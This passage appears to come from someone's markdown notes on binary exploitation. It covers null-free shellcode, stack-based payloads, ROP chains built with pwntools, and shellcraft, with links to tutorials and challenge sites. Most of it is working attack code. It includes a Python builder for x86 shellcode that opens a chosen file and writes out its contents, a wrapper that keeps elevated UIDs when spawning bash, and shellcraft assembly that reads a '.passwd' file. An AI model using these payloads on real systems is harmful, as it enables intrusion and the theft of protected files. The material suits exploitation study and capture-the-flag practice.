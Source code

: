 Note that the usually the base pointer is trashed during the exploting
process in a normal exploitation process, but the stack pointer is not.


 - http://www.blackhatlibrary.net/Shellcode/Null-free
 - [Error codes](http://www-numi.fnal.gov/offline_software/srt_public_context/WebDocs/Errors/unix_system_errors.html)
 - [ARMv8 Shellcodes from ‘A’ to ‘Z’](https://arxiv.org/pdf/1608.03415.pdf)

Since the standard ``/bin/sh`` is a link to ``/bin/bash`` that
droppes privileges when called, you can call instead a script
like the following

```python
#!/usr/bin/env python2
import os
os.setresuid(os.geteuid(), os.geteuid(), os.geteuid())
os.execlp("bash", "bash")
```

In order to make the payload more abstract possible (think about environmental variables) you need
to use a shell without configuration

```
$ env -i bash --norc --noprofile
```

You can look at the system log to understand crashes, for example
the error level in syslog are defined in ``arch/*/mm/fault.c`` in kernel
source code: for example the kernel can log a line like

    kernel: myapp[15514]: segfault at 794ef0 ip 080513b sp 794ef0 error 6 in myapp[8048000+24000]

If you want to capture the segmentation fault error you can do something like [this](https://unix.stackexchange.com/questions/53289/does-segmentation-fault-message-come-under-stderr)

    { ./code; } >&log

```
/*
 * Page fault error code bits:
 *
 *   bit 0 ==    0: no page found       1: protection fault
 *   bit 1 ==    0: read access         1: write access
 *   bit 2 ==    0: kernel-mode access  1: user-mode access
 *   bit 3 ==                           1: use of reserved bit detected
 *   bit 4 ==                           1: fault was an instruction fetch
 */
```

## Stack-based

In this context you are to pratically programming with assembly
into a buffer.

For example the following shellcode opens a fixed file and then write its contents
of to a file descriptor passed as first argument into the stack:

```python
# linux/x86/read_file - 84 bytes
# http://www.metasploit.com
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
#
# Modified shell code that reads a file and write its contents in the file descriptor
# passed as first argument into the stack.
#
# TODO: make configurable the use of sys_sendto() and return to the caller.
import sys

if len(sys.argv) < 2:
    sys.stderr.write('usage: %s <PATH>' % sys.argv[0])
    sys.exit(1)

path = sys.argv[1]

def put_piece_into_stack(piece):
    length = len(piece)
    assert length <= 4

    null_byte_needed = length < 4

    if null_byte_needed:
        piece = 'x'*(4 - length) + piece

    return  null_byte_needed, ('\xb8%s' % piece) + \
            ('\xc1\xe8%c' % ((4 - length)*8) if null_byte_needed else '') + \
            '\x50'

def build_string_into_stack(path_string):
    '''Returns the instructions to put into the stack
    the path needed

    0x00000002   5               b87878786f  mov eax, 0x6f787878
    0x00000007   3                   c1e818  shr eax, 0x18
    0x0000000a   1                       50  push eax
    '''

    path_length = len(path_string)
    # split the path so that each piece fit into a 32 bits register
    path_componentes = [path_string[x:x + 4] for x in range(0, path_length, 4)]
    path_componentes.reverse()

    buf = ''

    for path_component in path_componentes:
        null_byte_needed, opcode = put_piece_into_stack(path_component)
        buf += opcode

    return buf


buf  = ""                             # NOTE: some offset are wrong since we have modified the original shellcode
buf += "\x89\xe5"                     # 0x00000000   2                     89e5  mov ebp, esp

buf += build_string_into_stack(path)

buf += "\x31\xc0"                     # 0x00000017   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000019   1                       40  inc eax
buf += "\x40"                         # 0x0000001a   1                       40  inc eax
buf += "\x40"                         # 0x0000001b   1                       40  inc eax
buf += "\x40"                         # 0x0000001c   1                       40  inc eax
buf += "\x40"                         # 0x0000001d   1                       40  inc eax
buf += "\x89\xe3"                     # 0x0000001e   2                     89e3  mov ebx, esp
buf += "\x31\xc9"                     # 0x00000020   2                     31c9  xor ecx, ecx
buf += "\xcd\x80"                     # 0x00000022   2                     cd80  int 0x80             sys_open()
buf += "\x89\xc3"                     # 0x00000024   2                     89c3  mov ebx, eax
buf += "\xb8\x40\x30\x20\x10"         # 0x00000026   5               b840302010  mov eax, 0x10203040
buf += "\xc1\xe8\x10"                 # 0x0000002b   3                   c1e810  shr eax, 0x10
buf += "\x50"                         # 0x0000002e   1                       50  push eax
buf += "\x29\xc4"                     # 0x0000002f   2                     29c4  sub esp, eax
buf += "\x31\xc0"                     # 0x00000031   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000033   1                       40  inc eax
buf += "\x40"                         # 0x00000034   1                       40  inc eax
buf += "\x40"                         # 0x00000035   1                       40  inc eax
buf += "\x89\xe7"                     # 0x00000036   2                     89e7  mov edi, esp
buf += "\x89\xf9"                     # 0x00000038   2                     89f9  mov ecx, edi
buf += "\x8b\x55\xf0"                 # 0x0000003a   3                   8b55f0  mov edx, [ebp-0x10]
buf += "\xcd\x80"                     # 0x0000003d   2                     cd80  int 0x80             sys_read()
buf += "\x89\xc2"                     # 0x0000003f   2                     89c2  mov edx, eax
buf += "\x31\xc0"                     # 0x00000041   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x00000043   1                       40  inc eax
buf += "\x40"                         # 0x00000044   1                       40  inc eax
buf += "\x40"                         # 0x00000045   1                       40  inc eax
buf += "\x40"                         # 0x00000046   1                       40  inc eax
buf += "\x8b\x5d\x04"                 # 0x00000047   3                   8b5d04  mov ebx, [ebp+0x4]
buf += "\xcd\x80"                     # 0x0000004a   2                     cd80  int 0x80             sys_write()
buf += "\x31\xc0"                     # 0x0000004c   2                     31c0  xor eax, eax
buf += "\x40"                         # 0x0000004e   1                       40  inc eax
buf += "\x31\xdb"                     # 0x0000004f   2                     31db  xor ebx, ebx
buf += "\xcd\x80"                     # 0x00000051   2                     cd80  int 0x80             sys_exit()

sys.stdout.write(buf)
```

### Retrieve buffer related address

This below is an example in which we do a jmp and a call back, in this
way we obtain from the stack the address from which the call is started:
(the code is for ``amd64``)

```asm
    /* call write(1, 4196356, 3) */
    jmp miao
start:
    pop rsi
    push (SYS_write) /* 1 */
    pop rax
    push 1
    pop rdi
    push 50
    pop rdx
    syscall
    
    ret
miao:    call start
.ascii "miao\0"
```
(is inspired from the original [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)).

## ROP

```python
import sys

from pwnlib.rop import rop
from pwnlib import constants
from pwnlib.context import context

context.arch = 'amd64'
r = rop.ROP('libc.so.6')
r.write(constants.STDOUT_FILENO, 0x400639, 5)
r.exit()

sys.stderr.write(r.dump())

sys.stdout.write(str(r))
```

 - [Some universal gadget sequence for Linux x86_64 ROP payload](https://v0ids3curity.blogspot.it/2013/07/some-gadget-sequence-for-x8664-rop.html)
 - [ROP stack pivoting](https://neilscomputerblog.blogspot.it/2012/06/stack-pivoting.html)
 - [ROPShell](http://ropshell.com/) online rop gadgets
 - [X64 Sigreturn Oriented Programming](http://blackbunny.io/x64-sigreturn-oriented-programming/)
 - [Sigreturn Oriented Programming](https://0x00sec.org/t/srop-signals-you-say/2890)
 - [Ropemporium](https://ropemporium.com) Learn return-oriented programming through a series of challenges designed to teach ROP techniques in isolation, with minimal reverse-engineering and bug-hunting.
 - [one_gadget](https://github.com/david942j/one_gadget) A tool for you easy to find the one gadget RCE in libc.so.6
 - [one-gadget RCE in Ubuntu 16.04 libc](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

### Links

 - [Bypassing ASLR – Part III](https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-iii/) GOT overwrite and GOT dereference
 - [Exploiting WebKit on Vita 3.60](https://blog.xyz.is/2016/webkit-360.html)
 - [Porting exploits to a Netgear WNR2200](http://www.contextis.com/resources/blog/porting-exploits-netgear-wnr2200/)
 - [Common Pitfalls When Writing Exploits](http://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html)
 - [Finding kernel symbols for shell code](https://ryiron.wordpress.com/2013/09/05/kptr_restrict-finding-kernel-symbols-for-shell-code/) methodology to find address of kernel symbols
 - [Linux Kernel pktcdvd Memory Disclosure](https://jon.oberheide.org/blog/2010/10/23/linux-kernel-pktcdvd-memory-disclosure/)

## Tools

It's possible to generate automagically shellcodes using some tools like ``shellcraft``
a command line program included with ``pwntools``:

```
$ shellcraft i386.linux.cat .passwd --format asm
    /* push '.passwd\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1657672
    push 0x7361702e
    /* call open('esp', 0, 'O_RDONLY') */
    push (SYS_open) /* 5 */
    pop eax
    mov ebx, esp
    xor ecx, ecx
    cdq /* edx=0 */
    int 0x80
    /* call sendfile(1, 'eax', 0, 0x7fffffff) */
    mov ecx, eax
    xor eax, eax
    mov al, 0xbb
    push 1
    pop ebx
    push 0x7fffffff
    pop esi
    cdq /* edx=0 */
    int 0x80
```
